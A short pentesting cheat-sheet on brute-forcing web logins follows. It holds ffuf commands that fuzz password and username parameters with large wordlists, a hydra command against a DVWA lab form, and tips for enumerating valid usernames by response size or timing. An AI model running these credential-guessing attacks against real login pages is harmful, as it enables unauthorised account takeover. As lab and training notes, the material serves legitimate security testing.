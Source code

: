 **ffuf**

- Save request “copy to file” from burp - Replace “password” param with “FUZZ”
- Run with no filter, determine invalid response size, add `fs <SIZE>` , re-run command
```Python
ffuf -request r.txt -fs <SIZE> -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZ
```
**fuff - fuzz all permutations of multiple parameters (clusterbomb)**

- Modify the request with two keywords, append them to the proper wordlists
```Python
ffuf -request r.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER
```
**hydra**
```Python
hydra -V -L ../wordlists/users.txt -P ../wordlists/pass.txt 192.168.187.133 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: PHPSESSID=XXXXX; security=low"
```
## User Enumeration

- Check if response is different for failed username vs failed password
#### Timing technique:

- Attempt usernames with an extremely long password
	- Does the application take longer to check the password when the username is valid? 
	- Check response times !
